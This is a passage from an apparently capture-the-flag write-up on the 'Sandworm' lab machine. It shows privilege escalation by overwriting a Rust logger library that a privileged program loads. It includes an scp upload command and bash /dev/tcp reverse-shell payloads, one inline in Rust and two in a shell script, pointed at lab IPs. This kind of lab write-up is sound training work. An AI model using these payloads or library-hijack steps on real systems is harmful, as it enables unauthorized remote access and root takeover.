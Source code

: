 <img src="images/privesc/crates_lib_whoami.png" alt="tipnet run whoami cmd" width="75%" height="75%"> <br>

Upload to Sandworm. Wait and then check the log file.
```
scp crates-logger-lib-modified.rs silentobserver@10.10.11.218:/opt/crates/logger/src/lib.rs
```

<img src="images/privesc/tipnet_verify_whoami_output.png" alt="whoami cmd output in tipnet access log" width="50%" height="50%"> <br>

Success! :D

Let's repeat the same process but with a reverse shell payload. Start a Netcat listener and upload the code.
```rust
let shell_cmd = Command::new("bash -i >& /dev/tcp/10.10.14.45/5678 0>&1")
```

<img src="images/privesc/crates_lib_rshell_first_attempt.png" alt="tipnet reverse shell cmd" width="50%" height="50%"> <br>

Nothing happened. The access log shows an error message.

<img src="images/privesc/tipnet_verify_rshell_first_attempt.png" alt="reverse shell error in tipnet log" width="75%" height="75%"> <br>

Attempts with other commands point to issues with whitespaces. Instead of supplying commands directly, let's try placing them into a shell script.

## Root Access
Place two reverse shell payloads into a shell script named `atlas_rshell.sh`. The second shell will be used if the firejail exploit succeeds.
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.42/5678 0>&1;
bash -i >& /dev/tcp/10.10.14.42/5679 0>&1;
```
